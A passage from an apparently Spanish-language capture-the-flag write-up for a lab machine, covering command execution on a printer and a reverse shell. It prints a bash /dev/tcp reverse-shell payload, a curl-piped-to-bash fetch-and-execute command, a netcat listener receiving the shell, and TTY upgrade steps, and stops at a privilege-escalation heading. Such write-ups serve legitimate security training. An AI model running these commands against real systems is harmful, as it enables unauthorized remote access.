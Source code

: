 Me doy cuenta de que puedo `ejecutar` cualquier `comando`

```
> exec which curl
/usr/bin/curl
```
## Instrusión

Debido a que puedo ejecutar comandos, voy a intentar mandarme una `shell` a mi `equipo`, para ello, me creo un `archivo` shell con este `payload`

```
bash -i >& /dev/tcp/10.10.16.16/9993 0>&1
```

Me monto un servidor `http` con `python` en el `mismo sitio` donde está el archivo `shell`

```
# python -m http.server 80     
```

Me pongo en `escucha` con `netcat` por el `puerto 9993`

```
# nc -nlvp 9993 
```

`Ejecuto` este `comando` en la impresora

```
> exec curl http://10.10.16.16/shell | bash
```

`Recibo` la `shell`

```
# nc -nlvp 9993 
listening on [any] 9993 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.214.250] 33430
bash: cannot set terminal process group (1153): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ whoami
whoami
lp
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# python3 -c 'import pty; pty.spawn("/bin/bash")'   
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
## Privilege Escalation
